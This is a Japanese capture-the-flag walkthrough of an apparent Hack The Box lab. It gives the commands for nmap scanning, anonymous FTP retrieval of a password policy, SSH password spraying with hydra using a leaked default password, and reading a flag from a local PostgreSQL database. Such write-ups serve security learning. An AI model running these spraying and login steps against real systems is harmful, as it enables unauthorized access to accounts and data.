 # 1.Port Scan
ip=10.129.115.133

`nmap -sC -sV $ip`

![fe2b16b55b9f45992b9257128923effd.png](../_resources/fe2b16b55b9f45992b9257128923effd.png)

# 2.FTP Connect

`ftp $ip`

anonymousでloginする

name: anonymous

![dfa3aac7d0d864d24c50d60e46e342a0.png](../_resources/dfa3aac7d0d864d24c50d60e46e342a0.png)

mail_backupに2つのファイルがあることを確認

`cd mail_backup`

dir

get password_policy.pdf

get welcome_28112022

![74cd26d7f4e05405760aed3370dd5142.png](../_resources/74cd26d7f4e05405760aed3370dd5142.png)

入手したパスワードポリシーにデフォルトのパスワードが記載されている。

password_policy.pdf

![c2ef90d85b1f9303886116ec5b54909b.png](../_resources/c2ef90d85b1f9303886116ec5b54909b.png)


新しくチームに配属されたメンバーに対して送られたメールを入手

![2b3087a6548cae73a1de75c6e3c55351.png](../_resources/2b3087a6548cae73a1de75c6e3c55351.png)

# 3. Hydra

メールからusernames.txtを作成

`echo "optimus\n""albert\n""andreas\n""christine\n""maria\n" > usernames.txt`  

![5df5d011ebc8a24d3bc33297c035ee26.png](../_resources/5df5d011ebc8a24d3bc33297c035ee26.png)

ヒュドラでパスワードクラックを実施

`hydra -L usernames.txt -p 'funnel123#!#' 10.129.115.133 ssh`

`login: christine`
`password: funnel123#!#`

![702523a49102c3f11a7940de57f14eb2.png](../_resources/702523a49102c3f11a7940de57f14eb2.png)

sshで接続

![6369f256d375df2566d58e4b50b83ad2.png](../_resources/6369f256d375df2566d58e4b50b83ad2.png)

postgresqlをport5432を使用している事を確認

ss -tln 

![063e462b7df2fa0cd86f7d01a85e395d.png](../_resources/063e462b7df2fa0cd86f7d01a85e395d.png)

ss -tl

![aea4639f43ea6629388233d962707ec5.png](../_resources/aea4639f43ea6629388233d962707ec5.png)

ローカルマシンでポート1234を開けている事を確認

ss -tlpn

![00d5de00a7f3b4efa968ebd640a5eda1.png](../_resources/00d5de00a7f3b4efa968ebd640a5eda1.png)

# 4.Flag get

PostgreSQLに接続。flagを入手

`psql -U christine -h localhost -p 1234`

\l

\c secrets

\dt

SELECT * FROM flag;

![619651207f132284b358c3d00743a9a9.png](../_resources/619651207f132284b358c3d00743a9a9.png)
